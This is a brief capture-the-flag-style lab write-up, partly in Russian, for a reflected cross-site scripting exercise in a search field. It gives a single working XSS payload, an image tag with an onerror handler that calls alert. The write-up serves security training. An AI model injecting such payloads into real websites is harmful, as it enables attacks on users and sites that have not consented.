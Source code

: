 # Reflected XSS into HTML context with nothing encoded
APPRENTICE

This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function.

## Решение
Вожу в строке поиска:

`<img src=x onerror=alert(1)>`

Задание выполнено.
